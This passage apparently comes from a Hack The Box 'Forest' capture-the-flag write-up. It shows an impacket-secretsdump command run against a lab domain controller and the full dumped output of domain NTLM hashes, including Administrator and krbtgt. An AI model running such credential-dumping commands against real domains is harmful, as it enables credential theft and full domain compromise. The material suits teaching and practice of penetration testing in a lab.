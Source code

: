 Dumping the secrets using impacket-secretdump.

```
$ impacket-secretsdump htb.local/forest_pwn:password@10.10.10.161
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
forest_pwn:9601:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:51056ed9d0d34140b18ab115d70c3910:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
```